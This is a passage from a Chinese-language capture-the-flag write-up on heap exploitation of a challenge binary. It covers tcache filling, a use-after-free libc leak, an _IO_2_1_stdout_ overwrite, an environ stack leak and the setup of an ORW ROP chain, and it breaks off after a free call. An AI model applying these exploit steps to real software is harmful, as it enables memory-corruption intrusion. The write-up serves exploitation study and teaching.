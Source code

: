 ### 思路

主要是是通过在 unsorted bin 中向前合并堆块，以此来申请 chunk 改变 UAF 存留在 tcache bin 中的指针，然后申请第二次就可以修改 \_IO\_2\_1_stdout_ 结构体，用 environ 泄露出栈地址以获得程序的返回地址，然后把重叠的堆块再次释放，修改 size 和 fd 后再申请两次，在第二次直接传入在程序返回地址处构造的 orw 链就能成功 getshell 了。

### 详细流程

```plain
for i in range(7):
    add(0x80,'aaaa')

add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x10,'aaaa')

for i in range(7):
    delete(i)
```

先填满 tcache bin，然后为下面的合并申请几个 chunk

[![](assets/1701612363-1ca3479e61a7f1873b7e14d59d3971fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212940-a9932a62-19a5-1.png)

[![](assets/1701612363-9e9c8632e1d30ea49ea89ff09ba14be3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212945-acd4737a-19a5-1.png)

```plain
UAF(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
leak("libc_base ",libc_base)
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

environ = libc_base + libc.sym['environ']
leak('environ ',environ)
read_addr = libc_base + libc.sym['read']
open_addr = libc_base + libc.sym['open']
puts_addr = libc_base + libc.sym['puts']

pop_rdi_ret = libc_base + 0x0000000000023b6a
pop_rsi_ret = libc_base + 0x000000000002601f
pop_rdx_ret = libc_base + 0x0000000000142c92
```

然后 UAF 泄露一下 libc\_base

[![](assets/1701612363-3472a972374895924bafbdf35bfee94f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213000-b5a3c44c-19a5-1.png)

```plain
delete(7)
```
